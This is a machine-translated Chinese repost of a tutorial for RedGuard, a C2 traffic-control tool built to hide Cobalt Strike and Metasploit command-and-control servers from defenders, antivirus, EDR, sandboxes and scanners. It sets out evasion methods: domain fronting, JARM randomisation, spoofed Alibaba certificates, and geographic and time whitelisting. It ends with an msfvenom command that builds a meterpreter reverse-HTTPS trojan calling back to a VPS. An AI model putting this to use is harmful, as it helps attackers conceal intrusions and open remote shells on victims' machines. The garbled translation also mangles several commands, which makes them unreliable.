

# 红卫兵:C2 前端流量控制工具，可以避免蓝队，AVs，EDRs 检查

> 原文：<https://kalilinuxtutorials.com/redguard/>

.png)

**RedGuard** ，一款基于指挥控制(C2)前端流量控制技术的衍生工具，具有更轻便的设计、高效的流量交互、可靠兼容 go 编程语言开发。随着网络攻击的不断发展，红蓝队的演习变得越来越复杂，RedGuard 旨在为红队提供更好的 C2 通道隐藏解决方案，为 C2 通道提供流量控制，阻止“恶意”分析流量，更好地完成整个攻击任务。

红卫兵是一个 C2 前端流量控制工具，可以避免蓝队，AVS，EDR，网络空间搜索引擎检测。

## 红卫兵什么时候用？

*   在进攻和防御演习中，试图进行网络归因的调查人员使用态势感知平台分析连接到攻击者的 C2 流量
*   通过基于 JA3 指纹库识别云沙箱来防止恶意软件样本分析
*   阻止恶意请求执行重放攻击并实现在线混淆
*   在指定连接服务器的 IP 的情况下，通过白名单限制访问请求
*   防止通过网络空间映射技术扫描识别 C2 设施，重定向或拦截扫描探头的流量
*   支持多台 C2 服务器的前置流量控制，可以实现域前置、负载均衡连接，达到隐藏效果
*   通过请求 IP 反向查找 API 接口，能够根据 IP 地址的属性执行区域主机连接限制
*   解决分段校验和 8 规则路径解析的强大功能，而无需更改源代码。
*   通过目标请求的拦截日志分析蓝队的可跟踪性行为，这可以用来跟踪对等连接事件/问题
*   能够定制样本合法交互的时间段，实现只在工作时间段进行流量交互的功能
*   延展性 C2 配置文件解析器能够严格根据延展性配置文件验证入站 HTTP/S 请求，并在违反时丢弃出站数据包(支持延展性配置文件 4.0 以上)
*   与网络安全供应商相关的大量设备、蜜罐和云沙箱的内置 IPV4 地址黑名单，可自动拦截重定向请求流量
*   SSL 证书信息和可以通过自定义工具与示例交互的重定向 URL，以避免工具流量的固定签名
*   ……….

# 安装

可以直接下载使用编译后的版本，也可以远程下载 go 包独立编译执行。

**git 克隆 https://github.com/wikiZ/RedGuard.git
CD 红卫兵
你也可以使用 upx 压缩编译后的文件大小
go build-LD flags "-s-w "-trimp ath
赋予工具可执行权限并执行初始化操作
chmod +x ./RedGuard & &。/红卫兵**

# 配置描述

## 初始化

如下图所示，设置可执行权限，初始化 RedGuard。第一次运行会在当前用户主目录下生成一个配置文件，实现灵活的功能配置。配置文件名:**。RedGuard_CobaltStrike.ini** 。

cert 的配置选项主要是针对样本与 C2 前端基础设施之间的 SSL 证书加密 HTTPS 通信的配置信息。代理主要用于配置反向代理流量中的控制选项。具体用途将在下面详细说明。

SSL 证书加密的 HTTPS 通信将在执行 RedGuard 的目录下的 cert-rsa/目录中生成。可以通过修改配置文件**来启动和停止工具的基本功能(证书的序列号是根据时间戳生成的，不用担心与此功能关联)**。如果您想使用自己的证书，只需将它们重命名为 ca.crt 和 ca.key。

**OpenSSL x509-in ca . CRT-noout-text**

每次启动 RedGuard 时，都会更新随机 TLS JARM 指纹，以防止其被用于验证 C2 基础架构。

在使用自己的证书的情况下，将配置文件中的 HasCert 参数修改为`**true**`，以防止 JARM 混淆随机化导致的 CipherSuites 加密套件与自定义证书不兼容而导致的正常通信问题。

**是否使用您申请的证书真/假
HasCert =假**

## RedGuard 参数

**root@VM-4-13-ubuntu:~#。/RedGuard -h
的用法。/RedGuard:
-DropAction 字符串
RedGuard 拦截动作(默认“重定向”)
-EdgeHost 字符串
设置边缘主机通信域(默认“*”)-Edge Target 字符串设置边缘主机代理目标(默认“*”)
-HasCert 字符串
是否使用自己申请的证书(默认“真”)
-Allow WIP 字符串
代理请求允许 IP(默认“*”)-Allow Location 字符串代理请求允许位置(默认“【T11
-allowTime 字符串
代理请求允许时间(默认"*")-通用字符串 Cert CommonName(默认"* .aliyun.com")
-config 字符串
设置配置路径
-country 字符串
Cert Country(默认“CN”)
-DNS 字符串
Cert DNSName
-host 字符串
设置代理 HostTarget
-http 字符串
设置代理 http 端口(默认):HTTP
-ip 字符串
IPLookUP IP
-locality 字符串
Cert Locality(默认“杭州”)
-location 字符串
IPLookUP Location(默认”风起”)
-延展字符串
设置代理请求过滤延展文件(默认“*”)
-组织字符串
Cert 组织(默认“阿里巴巴(中国)科技有限公司”)
-重定向字符串
代理重定向 URL(默认“https://360 . net”)
-类型字符串
C2 服务器类型(默认“cobalt strike”)
-u 启用配置文件修改***

# 工具使用

## 基本拦截

如果直接访问反向代理的端口，则会触发拦截规则。在这里，您可以通过输出日志看到客户端请求的根目录，但是由于请求没有携带正确的主机请求标头所请求的凭据，因此触发了基本拦截规则，流量被重定向到 https://360.net

**{ " 360 . net ":" http://127 . 0 . 0 . 1:8080 "," 360 . com ":" https://127 . 0 . 0 . 1:4433 "}**

从上面的切片不难看出，360.net 代理到本地端口 8080，360.com 代理到本地端口 4433，使用的 HTTP 协议也不一样。在实际使用中，需要注意监听器的协议类型。与这里的设置一致，并设置相应的主机请求头。

如上图所示，在未授权访问的情况下，我们得到的响应信息也是重定向站点的返回信息。

## 拦截方法

在上述基本拦截情况下，使用默认拦截方法，通过重定向拦截非法流量。通过修改配置文件，我们可以更改拦截方法和重定向的站点 URL。事实上，与其称之为重定向，我认为将其描述为劫持、克隆可能更合适，因为返回的响应状态代码是 200，并且响应是从另一个网站获得的，以尽可能模仿被克隆/劫持的网站。

根据三种策略，无效数据包可能会被错误地路由:

*   **复位**:立即断开 TCP 连接。
*   **代理**:获取另一个网站的响应，尽可能模仿被克隆/劫持的网站。
*   **重定向**:重定向到指定网站，返回 HTTP 状态码 302，对重定向的网站没有要求。

**RedGuard 拦截动作:redirect / rest / proxy(劫持 HTTP 响应)
drop_action = proxy
URL 重定向到
Redirect = https://360.net**

配置文件中的 **Redirect = URL** 指向被劫持的 URL 地址。RedGuard 支持“热更改”，这意味着当工具通过`**nohup**`在后台运行时，我们仍然可以修改配置文件。内容实时开始和停止

**。/red guard-u–drop true**

注意，通过命令行修改配置文件时，不能缺少`**-u**`选项，否则无法成功修改配置文件。如果需要恢复默认的配置文件设置，只需要输入`**./RedGuard -u**`。

可以看出，C2 前端流量控制直接关闭响应非法请求，无需 HTTP 响应代码。在检测网络空间映射时，DROP 方法可以隐藏端口的打开。具体效果可以看下面这个案例。分析一下。

## JA3 指纹识别云沙盒分析流量

RedGuard 目前支持基于 JA3 指纹识别云沙箱的功能，可以识别和拦截在云沙箱环境中发起的网络请求，防止后续的连通性分析，进一步影响 C2 设施的安全性。

## 代理端口修改

配置文件中以下两个参数的配置实现了改变反向代理端口的效果。建议使用默认端口隐藏，只要它不与当前服务器端口冲突。如果必须修改，那么注意参数值的`**:**`不要遗漏

**HTTPS 反向代理端口
Port_HTTPS = :443
HTTP 反向代理端口
Port_HTTP = :80**

## RedGuard 日志

蓝队追踪行为是通过目标请求的拦截日志来分析的，可以用来追踪对等连接事件/问题。日志文件在 RedGuard 运行的目录下生成，**文件名:RedGuard.log** 。

## 红卫兵获得真实的 IP 地址

本节描述如何配置 RG 来获取请求的真实 IP 地址。您只需要将以下配置添加到 C2 设备的配置文件中，目标的真实 IP 地址通过请求报头 X-Forwarded-For 获得。

**http-config {
设置 trust _ x _ forwarded _ 为“真”；
}**

## 请求地理限制

配置方法以`**AllowLocation = Jinan, Beijing**`为例。注意，RedGuard 提供了两个用于反向 IP 归属的 API，一个针对 mainland China 的用户，一个针对非 mainland China 的用户，并且可以根据输入的地理域名动态分配使用哪个 API，如果目标是中国，那么对设定的地区使用中文，否则使用英文地名。建议 mainland China 的用户使用中文名字，这样归属地的准确性和反向查询得到的 API 的响应速度才是最好的选择。

P.S .中国大陆用户，不要这样使用 **AllowLocation =济南，北京**！没多大意义，参数值的第一个字符决定了用哪个 API！

在决定限制区域之前，您可以通过以下命令手动查询 IP 地址。

。**/红卫兵–IP 111.14.218.206
。/红卫兵–IP 111.14.218.206–位置山东#使用海外 API 查询**

在这里，我们设置只允许山东地区上线

考虑到地理限制的联系，在当前的攻防演练中可能更实用。基本上省市攻防演习限制的目标都在指定区域，其他区域要求的交通自然可以忽略。红卫兵的这个功能不仅可以限制单个地区，还可以根据省市限制多个连接地区，拦截其他地区请求的流量。

## 基于白名单的阻止

除了红卫兵内置的网络安全厂商 IP 黑名单，我们还可以根据白名单的方式进行限制。事实上，我还建议在 web 渗透期间，我们可以根据白名单限制在线 IP 地址，以拆分多路 IP 地址。

**白名单列表示例:AllowIP = 172.16.1.1，192 . 168 . 1 . 1
allow IP = 127 . 0 . 0 . 1**

## 基于时间段的阻止

这个功能比较有意思。在配置文件中设置以下参数值意味着流量控制设施只能从早上 8:00 到晚上 9:00 连接。这里的具体应用场景是，在指定的攻击时间，我们允许与 C2 通信，其他时间保持沉默。这也让红队可以睡个好觉，不用担心晚上值班的某个蓝队无聊到分析你的木马然后醒来发现什么难以形容的东西，哈哈哈。

**限制请求的时间示例:allow time = 8:00–16:00
allow time = 8:00–21:00**

## 延展性型材

红卫兵使用可延展的 C2 剖面。它解析提供的可扩展配置文件部分以理解契约，并只传递那些满足它的入站请求，同时误导其他请求。部分如 **`http-stager`、`http-get`** 、`**http-post**`及其对应的 uri、headers、User-Agent 等。用于区分合法的信标请求和不相关的互联网噪音或 IR/AV/EDR 越界数据包。

**C2 延展性文件路径
延展性文件=/root/cobalt strike/maltable . profile**

# 个案分析

## 网络空间搜索地图

如下图所示，当我们的拦截规则设置为 DROP 时，空间映射系统探测器将多次探测我们反向代理端口的/目录。理论上，映射发送的请求数据包被伪装成正常流量，如图所示。但几次尝试后，由于请求包的签名不符合 RedGuard 的发布要求，都被 Close HTTP 响应。最终在测绘平台上显示的效果是反向代理端口没有打开。

下图所示的流量是指当拦截规则设置为重定向时，我们会发现当映射探针收到响应时，会继续扫描我们的目录。User-Agent 是随机的，看似符合正常的流量请求，但都成功屏蔽了。

## 畴前

RedGuard 支持域名前置。在我看来，有两种呈现形式。一种是使用传统的域前置方式，在全站加速回本地址设置我们反向代理的端口即可实现。在原有的基础上，在域名前置中加入了流量控制的功能，可以按照我们设定的设置重定向到指定的 URL，让它看起来更真实。需要注意的是，HTTPS 主机头的 RedGuard 设置必须与站点范围加速的域名一致。

在单人战斗中，我建议可以使用上述方法，在团队任务中，也可以通过自建“域前置”来实现。

在自建域前端，保持多个反向代理端口一致，主机头一致指向后端真实的 C2 服务器监听端口。这样我们真正的 C2 服务器就可以很好的隐藏起来，反向代理的服务器只能通过配置防火墙来打开代理端口。

这可以通过多个节点服务器来实现，并在 CS 监听器 HTTPS 在线 IP 中配置我们节点的多个 IP。

## 边缘节点

RedGuard 22.08.03 更新了边缘主机连接设置——自定义内网主机交互域名，边缘主机使用域前端 CDN 节点交互。这就使得两台主机之间的信息不对称，更加难以溯源，难以排查故障。

## 钴罢工

如果上述方法出现问题，实际在线的 C2 服务器无法被防火墙直接拦截，因为反向代理中实际的负载均衡请求是由云服务器厂商的 IP 发出的。

在单机战斗中，我们可以在云服务器防火墙上设置拦截规则。

然后将代理指向的地址设置为 https://127.0.0.1:4433。

**{ " 360 . net ":" http://127 . 0 . 0 . 1:8080 "," 360 . com ":" https://127 . 0 . 0 . 1:4433 "}**

而且因为我们的基础验证是基于 HTTP 主机请求头的，所以我们在 HTTP 流量中看到的也和域前置的方法一样，只是成本更低，只需要一台云服务器。

## Metasploit

**生成木马**

**$ MSF venom-p windows/meter preter/reverse _ https LHOST = VPS IP LPORT = 443 httphosteader = 360 . com
-f exe-o ~/path/to/payload . exe**

当然，作为域名前置场景，你也可以配置你的 LHOST 使用厂商 CDN 的任意域名，注意设置 HttpHostHeader 匹配 RedGuard。

**setg OverrideLHOST 360.com
setg OverrideLPORT 443
setg OverrideRequestHost true**

需要注意的是，`**OverrideRequestHost**`设置必须设置为`**true**`。这是由于 Metasploit 在为登台有效负载生成配置时，默认情况下处理传入 HTTP/S 请求的方式中的一个功能。默认情况下，Metasploit 使用传入请求的`**Host**`头值(如果存在)进行第二阶段配置，而不是使用`**LHOST**`参数。因此，构建阶段被配置为将请求直接发送到您的隐藏域名，因为 CloudFront 在转发请求的`**Host**`头中传递您的内部域。这显然不是我们所要求的。使用`**OverrideRequestHost**`配置值，我们可以强制 Metasploit 忽略传入的`**Host**`头，而使用指向原始 CloudFront 域的`**LHOST**`配置值。

[**Download**](https://github.com/wikiZ/RedGuard)